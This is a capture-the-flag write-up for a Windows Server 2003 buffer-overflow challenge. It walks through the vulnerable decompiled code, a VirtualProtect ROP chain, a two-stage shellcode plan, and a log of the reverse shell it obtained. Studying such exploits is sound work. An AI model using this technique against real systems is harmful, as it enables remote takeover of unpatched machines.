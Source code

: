 # Hotbox
**Category**: Pwn

420 Points

4 Solves

Problem description:

```
open the WINDOWS!!! you know how to reuse a sockfd right?

ncat hotbox.420blaze.in 42069 (expect 1 in 4 requests to fail, but 42070 and 42071 are available now also)

if you can't pwn, plz open your own windows: X13-04874.img - Version 5.2.3790
```

This is actually a very easy Windows 2003 pwn, I don't know why there were so few solves. Maybe because it's Windows?

Anyways, using X13-04874.img found online, vmware takes good care of us and sets up a vm very quickly.
Then, we just download a copy of x64dbg and get started working.

We have a few variables on the stack, and there's a pretty blatant buffer overflow in main:

```C
char recvbuf[2048]; // [esp+0h] [ebp-A54h]
struct WSAData WSAData; // [esp+800h] [ebp-254h]
char sendbuf[128]; // [esp+990h] [ebp-C4h]
struct sockaddr addr; // [esp+A10h] [ebp-44h]
struct sockaddr name; // [esp+A20h] [ebp-34h]
int v24; // [esp+A30h] [ebp-24h]
int addrlen; // [esp+A34h] [ebp-20h]
int v26; // [esp+A38h] [ebp-1Ch]
const char *v27; // [esp+A3Ch] [ebp-18h]
DWORD pRead; // [esp+A40h] [ebp-14h]
SOCKET s; // [esp+A44h] [ebp-10h]
SOCKET sock; // [esp+A48h] [ebp-Ch]
u_short port; // [esp+A4Ch] [ebp-8h]
int readlen; // [esp+A50h] [ebp-4h]
int savedregs; // [esp+A54h] [ebp+0h]
// ...
readlen = recv(sock, recvbuf, 2048, 0);
// ...
memcpy((unsigned int)sendbuf, (unsigned int)recvbuf, readlen);
```

So using a test pattern we can find out that our payload will have return address at offset 0xc8.
Now, it seems like we're back in the good old days: back when everything was loaded at 0x401000 i.e. there's no ASLR.
During my testing, my VM even had the same stack buffer addresses as the remote server.
So in our shellcode later, we don't even need to think about grabbing Winapi function addresses since we can just hardcode them.

Unfortunately, there *is* NX. We can get around this very easily by constructing a simple ropchain to VirtualProtect the stack:
```
+0x00 VirtualProtect (stdcall with ebp stack)
+0x04 return address of our shellcode from VirtualProtect
+0x08 0x12c000 (address of stack)
+0x0c 0x4000 (length to protect)
+0x10 0x40 (PAGE_EXECUTE_READWRITE)
+0x14 0x0041901E (lpflOldProtect, this is required to be some writeable address so I just pass it some crap in .data)
```

We can't simply spawn `cmd` like `system("/bin/sh")` because the program closes the socket before returning. So instead we need to make our own connectback.
It's important to note that `sendbuf`, which `recvbuf` is copied into, has a pretty high stack address, around ~0x12fec0, meaning that even if the recv length is 2048, we can't use more than about 0x140 bytes or else we'll segfault from overflowing the stack.
I don't like to think too hard while writing shellcodes, so I split the exploit up into 2 stages:
 - stage1: use buffer overflow and short (<0x140 bytes) shellcode to recv+exec new stage2 shellcode
 - stage2: get shell

In my testing, it seems like bind shell doesn't work on the remote server so we'll opt for a reverse shell instead.
As for the shellcodes, they're pretty easy to assemble. I just took them from exploitdb and repurposed them quickly.
Spawning reverse shell with winsock is pretty easy, you just need to CreateProcess and use the socket as your stdio.

```
python fuck.py

stage1 done
received connectback from ('67.171.55.160', 52682)
stage2 done
Listening on [0.0.0.0] (family 0, port 4444)
Connection from c-67-171-55-160.hsd1.wa.comcast.net 52732 received!
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\Documents and Settings\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 20FE-D5C9

 Directory of C:\Documents and Settings\Administrator\Desktop

04/22/2018  05:06 AM    <DIR>          .
04/22/2018  05:06 AM    <DIR>          ..
04/20/2018  12:45 AM            95,744 blazectf-1.exe
04/22/2018  05:06 AM                 8 commandos_saw_ur_msg_esbr_lol
04/22/2018  03:14 AM                 5 esbr_was_here_now_stop_pwning_and_start_blazin
04/21/2018  01:02 PM             4,447 fixer.bat
04/20/2018  12:01 AM                54 flag.txt
04/20/2018  12:45 AM                41 run.bat
04/20/2018  12:45 AM                41 run2.bat
04/20/2018  12:45 AM                41 run3.bat
               8 File(s)        100,381 bytes
               2 Dir(s)  39,840,907,264 bytes free

C:\Documents and Settings\Administrator\Desktop>type flag.txt
type flag.txt
blaze{h0w_long_d1d_pwning_ezmode_w1ndows_t0ke_you_smh}
C:\Documents and Settings\Administrator\Desktop>
```

And that's it!